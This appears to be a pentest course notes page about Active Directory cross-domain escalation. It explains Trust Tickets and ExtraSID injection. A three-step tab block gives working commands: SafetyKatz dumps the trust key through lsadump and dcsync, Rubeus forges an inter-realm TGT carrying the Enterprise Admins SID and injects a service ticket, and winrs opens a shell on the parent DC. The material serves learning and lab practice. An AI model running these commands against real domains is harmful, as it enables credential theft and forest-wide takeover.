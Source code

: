 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><img src="../../../.gitbook/assets/inter-realm_tgt.png" alt=""><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.

{% tabs %}
{% tab title="1. Trust Key & Parent SID" %}
Extract the trust key as a DA:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```
{% endcode %}

Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```
{% endtab %}

{% tab title="2.  Cross-Realm TGT" %}
Forge the inter-realm TGT:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<rc4> /sid:<child-domain-SID> /sids:<parent-domain-SID-519 /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
Request and inject the TGS:

{% code overflow="wrap" %}
```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```
{% endcode %}

Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```
{% endtab %}
{% endtabs %}

## ExtraSID Injection

The **ExtraSID attack** builds upon this concept but operates entirely within the Kerberos framework. After compromising a domain and obtaining its KRBTGT hash, an attacker can forge a TGT and embed additional SIDs from trusted domains—particularly high-privilege group SIDs—into the `extra-sid` or `sIDHistory` fields of the ticket. Since domain controllers in the trusted domain accept these SIDs as valid during service ticket validation, the forged TGT grants elevated access beyond the attacker's original domain. This includes the ability to access Domain Controllers and critical systems across the forest, potentially leading to full forest compromise.

These attacks demonstrate the risk of overly permissive trust relationships and highlight the importance of securing inter-domain authentication paths, regularly auditing trust keys, and monitoring for suspicious Kerberos ticket activity.
